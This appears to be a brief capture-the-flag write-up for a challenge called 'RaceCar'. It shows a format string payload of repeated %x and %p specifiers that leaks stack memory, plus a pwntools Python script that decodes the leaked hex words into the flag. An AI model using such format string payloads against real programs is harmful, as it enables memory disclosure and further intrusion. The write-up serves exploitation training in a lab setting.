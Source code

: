 ## RaceCar

  >>format string vulnerability
  >>Payload
 
  %x %x %x %x %x %x %x %x %x %x %x Flag %p %p %p %p %p %p %p %p %p %p %p  
  
  
```from pwn import *
flag = "0x7b4254480x5f7968770x5f6431640x34735f310x745f33760x665f33680x5f67346c0x745f6e300x355f33680x6b6334740x7d213f"
decoded_flag = []
for element in flag.split("0x")[1:]:
    decoded_flag.append(str(p32(int("0x" + element,16))))

decoded_flag = ''.join(decoded_flag)

print(decoded_flag.replace("'b'",''))```
